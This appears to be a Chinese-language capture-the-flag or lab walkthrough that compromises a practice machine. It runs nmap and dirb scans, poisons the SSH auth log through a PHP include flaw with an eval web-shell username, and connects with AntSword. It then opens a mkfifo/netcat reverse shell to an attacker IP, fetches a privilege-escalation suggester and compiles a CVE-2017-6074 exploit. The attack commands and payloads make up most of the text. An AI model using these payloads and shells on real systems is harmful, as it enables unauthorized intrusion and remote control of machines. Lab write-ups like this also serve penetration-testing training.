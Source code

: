 ## nmap扫描



```bash
nmap --min-rate 10000 -p- 10.9.75.7
```

![image-20240114131914510](imgs/image-20240114131914510.png)

```bash
sudo nmap -sC -sT -sV -O -p21,80,2211,8888 10.9.75.7
```

![image-20240114131954556](imgs/image-20240114131954556.png)

访问80端口

![image-20240114132137915](imgs/image-20240114132137915.png)

## 目录扫描

```bash
└─$ dirb http://10.9.75.7
```

![image-20240114132216734](imgs/image-20240114132216734.png)

发现敏感目录

![image-20240114132327132](imgs/image-20240114132327132.png)

发现了PHP探针

http://10.9.75.7/antibot_image/antibots/info.php

![image-20240114132933255](imgs/image-20240114132933255.png)

在`info.php`查看源代码后发现敏感信息泄露

![image-20240114133011681](imgs/image-20240114133011681.png)

危险函数`include`

![image-20240114133114780](imgs/image-20240114133114780.png)

尝试一下读取日志

ssh的登录日志（在这里也可以是我们发现的指纹apache的日志）`var/log/auth.log`

先用一个根本不存在的用户,测试是否能够成功写入到 `log`中：` ssh aaaaaaaaa@10.9.75.7 -p2211`。

![image-20240114133859483](imgs/image-20240114133859483.png)

## 漏洞利用

尝试通过ssh登录上传一句话木马

扫描出2211为SSH服务

```bash
ssh '<?php @eval($_POST['saury']);?>'@10.9.75.7  -p 2211
```

![image-20240114134933861](imgs/image-20240114134933861.png)

蚁剑连接

![image-20240114134901189](imgs/image-20240114134901189.png)

![image-20240114135035049](imgs/image-20240114135035049.png)

接下来，就可以想办法进行权限提升了

反弹shell先

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.75.6 4444 >/tmp/f
```



![image-20240114141118370](imgs/image-20240114141118370.png)

![image-20240114141126769](imgs/image-20240114141126769.png)

生成可交互式shell

```bash
python3 -c"import pty;pty.spawn( '/bin/bash')"
```

下载漏洞 探测脚本，进行利用`https://github.com/The-Z-Labs/linux-exploit-suggester`

下载到本地，然后使用`python`开启服务，让靶机下载

![image-20240114141856110](imgs/image-20240114141856110.png)



![image-20240114141727204](imgs/image-20240114141727204.png)

给下载的脚步赋予执行权限

![image-20240114141950856](imgs/image-20240114141950856.png)

下载这个利用脚本

![image-20240114142250005](imgs/image-20240114142250005.png)



```c
gcc 41458.c -o CVE-2017-6074
```



![image-20240114143007845](imgs/image-20240114143007845.png)

赋予执行权限，但是报了一个错误

![image-20240114144313919](imgs/image-20240114144313919.png)



```
strings /lib/x86_64-linux-gnu/libc.so.6 |grep GLIBC_2.3
```

![image-20240114144512456](imgs/image-20240114144512456.png)

可以看到靶机上确实没有 `GLIBC_2.34`的

